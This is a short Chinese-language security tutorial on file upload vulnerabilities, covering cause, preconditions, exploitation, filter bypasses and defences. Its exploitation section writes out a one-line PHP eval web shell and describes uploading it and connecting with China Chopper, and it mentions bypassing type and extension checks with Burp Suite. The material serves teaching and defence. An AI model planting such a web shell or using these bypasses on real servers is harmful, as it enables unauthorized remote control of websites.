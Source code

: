 ### 一、漏洞原理
web程序没有严格控制上传的文件类型或者处理不当，导致用户可以上传payload文件，从而达到攻击目的。
### 二、存在条件

1. 上传控制不够严谨且没有对文件进行处理
2. 展示文件上传位置
3. 文件位置没有独立出来
### 三、漏洞利用

1. 根据web程序执行语言编写后门文件，例如：
```shell
echo "<?php @eval($_POST[pass]);?>" >> shell.php
```

2. 上传shell.php到服务器后台，并根据获取的上传路径拼接链接
3. 使用中国菜刀连接
### 四、漏洞绕过

1. 前端对文件类型进行控制
> 通过burpsuite截取数据包，并更改Content-Type类型从而绕过


2. 对文件类型及后缀进行控制
> 通过burpsuite以及后缀名修改绕过控制从而上传到服务器，并利用其他漏洞对文件名进行更改


### 五、漏洞绕过分类
![ae3ga1i6gu.png](https://cdn.nlark.com/yuque/0/2022/png/32589116/1664094766112-fde65c0c-8f19-4145-8061-9c12384059d2.png#clientId=uc66045a5-d956-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=458&id=u50db9878&margin=%5Bobject%20Object%5D&name=ae3ga1i6gu.png&originHeight=573&originWidth=800&originalType=binary&ratio=1&rotation=0&showTitle=false&size=487897&status=done&style=none&taskId=u8c6f1eb6-e3a8-44da-9cbb-b03d4ba51e6&title=&width=640)
### 六、漏洞防御

1. 从前后端对上传文件的文件类型、后缀以及文件名进行限制
2. 严格限制上传目录的位置
3. 对上传文件进行修改，比如重命名、压缩等
4. 对上传文件的目录服务器跟web服务器进行隔离，并只授予只读权限
